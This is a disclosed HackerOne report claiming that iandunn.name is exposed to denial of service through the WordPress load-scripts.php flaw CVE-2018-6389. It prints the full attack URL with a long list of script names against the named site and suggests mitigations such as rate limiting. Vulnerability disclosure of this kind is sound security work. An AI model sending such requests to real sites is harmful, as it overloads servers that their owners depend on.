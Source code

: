 # Dos  https://iandunn.name/ via CVE-2018-6389 exploitation

## Report Details
- **Report ID**: 770508
- **URL**: https://hackerone.com/reports/770508
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-01-08T22:08:33.434Z
- **Disclosed**: 2020-01-09T01:32:50.309Z

## Reporter
- **Username**: bruteforce
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: iandunn-projects

## Vulnerability Information
Similar to #752010

Detail:-
There is possibility in /wp-admin/load-scripts.php script to generate large (~3Mb) amount of data via simple non-authenticated request to server.
The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

Detailed attack scenario is described for example here: https://baraktawily.blogspot.ru/2018/02/how-to-dos-29-of-world-wide-websites.html
I have an Apache JMeter script which is able to simulate necessary loading for your site (can be provided to you if necessary)

vuln url:- 

````
https://iandunn.name///wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
````

As no rate-limiting is setup for this URL - then DoS comes real.

Variants to fix issue
change default "admin" directory name (Security through obscurity)
or apply some password protection to /wp-admin/ url
or apply some rate-limiting (but DDoS is still possible)

Other possible Fix
https://github.com/Jetserver/CVE-2018-6389-FIX

## Impact

DoS of the site and application server

## Attachments
No attachments
